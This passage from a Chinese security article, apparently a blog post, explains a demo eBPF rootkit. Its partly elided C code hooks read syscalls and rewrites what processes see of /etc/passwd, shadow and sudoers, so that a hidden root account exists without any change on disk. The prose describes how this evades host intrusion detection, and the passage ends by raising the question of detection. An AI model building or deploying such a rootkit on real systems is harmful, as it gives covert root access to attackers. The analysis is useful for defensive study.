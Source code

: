   

**内核态使用payload**

```c
 1const volatile int payload_len = 0; 2... 3const volatile char payload_shadow[MAX_PAYLOAD_LEN]; 4 5SEC("tracepoint/syscalls/sys_exit_read") 6int handle_read_exit(struct trace_event_raw_sys_exit *ctx) 7{ 8    // 判断是否为rootkit行为，是否需要加载payload 9    ...10    long int read_size = ctx->ret;11    // 判断原buff长度是否小于payload12    if (read_size < payload_len) {13        return 0;14    }1516    // 判断文件类型，匹配追加相应payload17    switch (pbuff_addr->file_type)18    {19    case FILE_TYPE_PASSWD:20        // 覆盖payload到buf，不足部分使用原buff内容21        {22            bpf_probe_read(&local_buff, MAX_PAYLOAD_LEN, (void*)buff_addr);23            for (unsigned int i = 0; i < MAX_PAYLOAD_LEN; i++) {24                if (i >= payload_passwd_len) {25                    local_buff[i] = ' ';26                }27                else {28                    local_buff[i] = payload_passwd[i];29                }30            }31        }32        break;33    case FILE_TYPE_SHADOW:34        // 覆盖 shadow文件35        ...36        break;37    case FILE_TYPE_SUDOERS:38        //覆盖sudoers39        ...40        break;41    default:42        return 0;43        break;44    }454647    // 将payload内存写入到buffer48    ret = bpf_probe_write_user((void*)buff_addr, local_buff, MAX_PAYLOAD_LEN);49    // 发送事件到用户态5051    return 0;52}
```

按照如上demo rootkit的设计，即完成了随机用户名密码的root账号添加。在鉴权认证上，也可以配合eBPF网络层恶意利用的demo，利用eBPF map交互，实现相应鉴权。但rootkit本身并没有更改硬盘上文件，不产生风险行为。并且，只针对特定进程的做覆盖，隐蔽性更好。整个流程如下图：
![[Pasted image 20240920191054.png]]
![](data:image/svg+xml,%3C%3Fxml version='1.0' encoding='UTF-8'%3F%3E%3Csvg width='1px' height='1px' viewBox='0 0 1 1' version='1.1' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink'%3E%3Ctitle%3E%3C/title%3E%3Cg stroke='none' stroke-width='1' fill='none' fill-rule='evenodd' fill-opacity='0'%3E%3Cg transform='translate(-249.000000, -126.000000)' fill='%23FFFFFF'%3E%3Crect x='249' y='126' width='1' height='1'%3E%3C/rect%3E%3C/g%3E%3C/g%3E%3C/svg%3E)

不管是在物理机上，还是给了root+BPF权限的容器上，都一样生效。

  

**· 视频演示**

  

**· 危害**

云原生场景下，赋予SYS_ADMIN的权限的容器场景很多，若配合近期的JAVA log4j漏洞，直接击穿容器，拿到宿主机权限，是不是很可怕？

  

然而，比这可怕的是这种rootkit本身并没有产生用户态行为日志，也没有改文件，系统里查不到这个用户信息。整个后门行为不产生数据，让大部分HIDS失灵。

  

  _**综述**_

从笔者演示的这两个场景可以来看，大家已经知道eBPF技术被恶意利用的危害。其实，这只是eBPF技术的冰山一角，在kproeb\uprobe上也有很多功能，比如实现进程隐藏，无痕内网扫描等等。相关恶意利用可参考**《Bad BPF - Warping reality using eBPF》**[文末链接-3]一文。

  

若入侵者精心设计rootkit，实现进程隐藏等，让rootkit更加隐蔽，按照本文的思路，实现一个幽灵般的后门，想想就让人后怕。

  

常规的主机安全防御产品一般用netlink linux kernel module等技术实现进程创建、网络通讯等行为感知，而eBPF的hook点可以比这些技术更加深，比他们执行更早，意味着常规HIDS并不能感知发现他们。

  

传统rootkit，采用hook api方法，替换原来函数，导致执行函数调用地址发生变化，已有成熟检测机制，eBPF hook不同于传统rootkit ，函数调用堆栈不变。这给检测带来很大的麻烦。

  

那面对这种后门，该如何检测防御呢？
